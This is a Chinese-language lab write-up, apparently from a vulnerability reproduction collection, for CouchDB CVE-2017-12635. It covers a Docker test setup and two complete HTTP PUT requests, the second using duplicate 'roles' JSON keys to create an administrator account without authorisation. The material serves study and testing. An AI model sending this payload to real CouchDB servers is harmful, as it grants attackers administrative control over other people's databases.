



# Couchdb 垂直权限绕过漏洞（CVE-2017-12635）

Apache CouchDB 是一个开源数据库，专注于易用性和成为"完全拥抱 web 的数据库"。它是一个使用 JSON 作为存储格式，JavaScript 作为查询语言，MapReduce 和 HTTP 作为 API 的 NoSQL 数据库。应用广泛，如 BBC 用在其动态内容展示平台，Credit Suisse 用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web 和应用程序）。

在 2017 年 11 月 15 日，CVE-2017-12635 和 CVE-2017-12636 披露，CVE-2017-12635 是由于 Erlang 和 JavaScript 对 JSON 解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

影响版本：小于 1.7.0 以及 小于 2.1.1

参考链接：

 - http://bobao.360.cn/learning/detail/4716.html
 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## 测试环境

编译及启动环境：

```
docker compose build
docker compose up -d
```

环境启动后，访问 `http://your-ip:5984/_utils/` 即可看到一个 web 页面，说明 Couchdb 已成功启动。但我们不知道密码，无法登陆。

## 漏洞复现

首先，发送如下数据包：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

可见，返回 403 错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置 Role 角色：



发送包含两个 roles 的数据包，即可绕过限制：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

成功创建管理员，账户密码均为 `vulhub`：



再次访问 `http://your-ip:5984/_utils/`，输入账户密码 `vulhub`，可以成功登录：


